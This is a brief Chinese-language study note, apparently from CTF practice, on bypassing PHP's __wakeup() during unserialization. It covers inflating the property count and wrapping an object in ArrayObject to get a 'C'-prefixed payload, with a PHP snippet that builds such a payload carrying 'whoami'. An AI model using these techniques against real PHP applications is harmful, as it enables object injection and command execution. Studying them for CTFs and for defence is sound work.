

详细看[PHP反序列化中wakeup()绕过总结 – fushulingのblog](https://fushuling.com/index.php/2023/03/11/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%ADwakeup%E7%BB%95%E8%BF%87%E6%80%BB%E7%BB%93/)

1. 对象的属性个数大于实际个数
    



2. C绕过，直接把O改为C只能只能构造和析构，我们可以把类放入数组，利用new ArraryObject，打包
    

```PHP
$a=new ctfshow;
$a->ctfshow="whoami";
$arr=array("evil"=>$a);
$oa=new ArrayObject($arr);
$res=serialize($oa);
echo $res;
```

```PHP
ArrayObject::unserialize
ArrayIterator::unserialize
RecursiveArrayIterator::unserialize
SplObjectStorage::unserialize
//这些类也是以C开头
```